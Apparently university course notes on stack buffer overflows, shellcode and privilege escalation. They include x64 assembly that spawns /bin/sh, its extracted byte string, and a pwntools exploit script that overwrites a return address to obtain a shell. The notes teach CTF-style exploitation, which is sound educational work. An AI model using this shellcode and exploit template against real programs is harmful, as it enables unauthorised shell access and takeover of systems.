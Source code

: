 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```


# Shellcode and privilege escalation

## Introductions

- introductions of two students

## Key concepts

### Basic buffer overflow

We have previously used a buffer overflow to overwrite the return address with
an address of our choosing. For example, this could go into the code block to
execute some functionality that was not intended. In our toy examples this code
would print out a congratulations message or a flag, but a more dangerous piece
of code might grant the user administrative privileges.

![basic buffer overflow, overwriting the return address with a pointer into the code block](/images/notes/basic-overflow.png)

### Injecting code onto the stack

A more advanced attack injects code onto the stack, then writes the return
address to point to that code. The attack code could come before or after the
return address. In case the return address doesn't point exactly to the start of
the injected code, the attacker can add a NOP sled in front of the code.

![buffer overflow that injects code onto the stack](/images/notes/injecting-code.png)

The injected code could execute:

- `cat /flag.txt` in a CTF contest
- `/bin/sh` if wanting to create a shell (which then lets the attacker execute
  any other command)

### The execve() system call

The `execve` system call allows a program to transform itself into a new process
-- "stop running my program, and run this other program instead". Never returns
to the calling program unless an error occurred when creating the new process
image.

```c
#include <unistd.h>

int execve(const char *pathname, char *const _Nullable argv[],
           char *const _Nullable envp[]);
```

- `pathname` is the path to a binary executable
- `argv` is an array of arguments for the program
- `envp` is an array of environment variables of the form `key=value`

Your shell might use this to start a program when you type a command at the
prompt:

```c
char *name[2];
name[0] = "curl";
name[1] = 'https://someURL.com';
execve("/usr/bin/curl", name, NULL);
```

### Shellcode

When an attacker injects code, it is really useful to have that code spawn a
shell. They can do this using `execve` to start `/bin/sh`. To write shellcode:

- write assembly to launch the shell
- compile this into a binary
- extract the raw bytes to use for injection

Here is some
[example shellcode](https://book.jorianwoltjer.com/binary-exploitation/shellcode)
for the x64 architecture:

```asm
.global _start
_start:
.intel_syntax noprefix
        mov rax, 59           ; choose which syscall: execve (see x64.syscall.sh)
        lea rdi, [rip+binsh]  ; set a *pointer* to the /bin/sh string as 1st argument
        mov rsi, 0            ; set 2nd argument (argv[]) to NULL
        mov rdx, 0            ; set 3rd argument (envp[]) to NULL
        syscall               ; perform the syscall we set up
binsh:
        .string "/bin/sh"     ; include the string we referenced
```

You can then compile this and convert it to an ascii representation:

```sh
# compile
gcc -nostdlib -static shellcode.s -o shellcode-elf
# convert to raw
objcopy --dump-section .text=shellcode-raw shellcode-elf
# hexdump to ascii
hexdump -v -e '"\\" 1/1 "x%02x"' shellcode-raw; echo
```

This is the resulting string:

```
\x48\xc7\xc0\x3b\x00\x00\x00\x48\x8d\x3d\x10\x00\x00\x00\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00
```

To complete the attack manually, you can use `gdb` to identify the address of
the area where the code is located, using this to overwrite the return address.

### Simplifying the attack

You can use `pwntools` to greatly simplify a buffer overflow attack. A
[video from CryptoCat](https://www.youtube.com/watch?v=4zut2Mjgh5M) walks
through this process in detail. The script below shows the primary pieces of the
attack.

```python
# Offset to EIP (return address)
padding = 76

# Assemble the byte sequence for 'jmp esp' so we can search for it
# This finds a "jump esp" instruction that already exists in the binary, and points to the address of
# that instruction. The ESP will point to the memory location right after the return address, which
# is where you will put your payload.
jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

# shellcode to run /bin/sh
shellcode = asm(shellcraft.sh())
# you could alternatively have shellcode to print the flag
# shellcode = asm(shellcraft.cat('flag.txt'))

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 16,
    shellcode
)

# Write payload to file to use later
write("payload", payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

### Privilege escalation

Privilege escalation occurs any time an attacker is able to increase their
privileges. For example:

- moving from existing program functionality to running a shell
- moving from a sandbox to the entire filesystem
- moving from a non-root account to a root account
- moving from user space privileges to kernel-mode privileges

Our shellcode examples fall under the first category.

### Additional reading

- [writing Windows shellcode](https://idafchev.github.io/blog/writing_windows_shellcode/)
